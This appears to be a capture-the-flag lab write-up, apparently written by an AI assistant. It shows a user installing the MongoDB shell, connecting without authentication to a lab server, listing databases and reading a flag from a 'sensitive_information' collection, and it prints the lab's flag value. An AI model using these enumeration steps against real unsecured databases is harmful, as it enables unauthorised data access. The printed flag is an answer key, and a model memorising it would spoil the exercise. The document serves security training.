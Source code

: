 # MongoDB

MangoDB

Here’s a summarized breakdown of the **zsh commands** and steps you executed:

***

#### **1. Download the Correct Mongosh Version**

You downloaded the **ARM64 version** of `mongosh` (MongoDB Shell) since your system likely has an ARM-based architecture.

Command:

```bash
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-arm64.tgz
```

***

#### **2. Extract the File**

You extracted the contents of the downloaded `.tgz` archive.

Command:

```bash
tar xvf mongosh-2.3.2-linux-arm64.tgz
```

***

#### **3. Navigate to the Executable**

You navigated into the directory where the `mongosh` binary is located.

Commands:

```bash
cd mongosh-2.3.2-linux-arm64/bin
```

***

#### **4. Connect to the MongoDB Server**

You executed the `mongosh` binary and connected to the remote MongoDB server running at `10.129.214.72` on the default MongoDB port (`27017`).

Command:

```bash
./mongosh mongodb://10.129.214.72:27017
```

***

#### **5. Explore MongoDB**

Within the MongoDB shell, you performed the following operations:

1.  **List All Databases**:

    ```bash
    show dbs
    ```

    Output:

    * `admin`
    * `config`
    * `local`
    * `sensitive_information`
    * `users`
2.  **Switch to the `sensitive_information` Database**:

    ```bash
    use sensitive_information
    ```

    Output:

    * Switched context to `sensitive_information`.
3.  **List All Collections in the Database**:

    ```bash
    show collections
    ```

    Output:

    * `flag`
4.  **Retrieve the Data in the `flag` Collection**:

    ```bash
    db.flag.find().pretty()
    ```

    Output:

    *   The flag object:

        ```json
        {
          "_id": ObjectId("630e3dbcb82540ebbd1748c5"),
          "flag": "1b6e6fb359e7c40241b6d431427ba6ea"
        }
        ```

***

#### **Summary**

You successfully:

1. Installed and ran the MongoDB shell (`mongosh`) on an ARM-based Kali system.
2. Connected to a remote MongoDB server.
3. Enumerated databases and collections.
4. Retrieved a sensitive flag (`1b6e6fb359e7c40241b6d431427ba6ea`) stored in the `flag` collection of the `sensitive_information` database.

Let me know if you need further assistance! 🚀




